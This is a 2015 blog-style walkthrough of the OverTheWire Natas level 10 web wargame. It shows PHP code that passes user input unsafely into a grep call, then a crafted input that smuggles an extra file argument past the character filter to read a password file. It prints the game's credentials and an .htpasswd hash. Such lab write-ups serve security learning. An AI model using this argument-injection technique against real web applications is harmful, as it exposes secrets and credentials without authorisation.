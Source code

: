 ```yaml
---
layout: post
title:  "Natas Level 10"
date:   2015-09-28 19:45
categories: natas wargame web overthewire
author: Leander
---
```

This is a solution guide to the Natas10 Level at [overthewire](http://natas10.natas.labs.overthewire.org). This write-up was created on 28 September 2015.

First connect to the website
<ul><li>http://natas10.natas.labs.overthewire.org</li>
<li>Enter the following as the username natas10 and password nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu</li></ul>

Let's begin first by clicking on view source and examining the code for this level.
{% highlight php linenos %}
<?php
$key = "";
 
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }}?>
{% endhighlight %}

This challenge is very similar to the last challenge except that it filters and checks for the following characters <code>[;|&]</code>. After the check it still uses the same php function called *passthru()*. If you want to learn more about *passthru()* check out this [link](http://php.net/manual/en/function.passthru.php). So now we have to find a way to send *passthru()* a command which will show us the flag inside /etc/natas_webpass/natas11.

This time we are going to send grep an actual valid command to search for our key. You can find more about grep [here](http://www.tutorialspoint.com/unix_commands/grep.htm). Of note we know that we don't have to worry about case due to the *-i* switch, and we also know that grep expects to have a pattern to search for followed by a named input file. So let's try searching for all text with .* in the /etc/natas_webpass/natas11 directory. Now let's place the crafted input into the search field:

<code> .* /etc/natas_webpass/natas11 #</code>

Which returns our password on the last line:
<figure class="highlight"><pre><code class="language-text" data-lang="text">.htaccess:AuthType Basic
.htaccess: AuthName "Authentication required"
.htaccess: AuthUserFile /var/www/natas/natas10//.htpasswd
.htaccess: require valid-user
.htpasswd:natas10:$1$sDWfJg4Y$ewf9jvw0ChWUA3KARHisg.
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</code></pre></figure>

The password is <code>natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK</code>
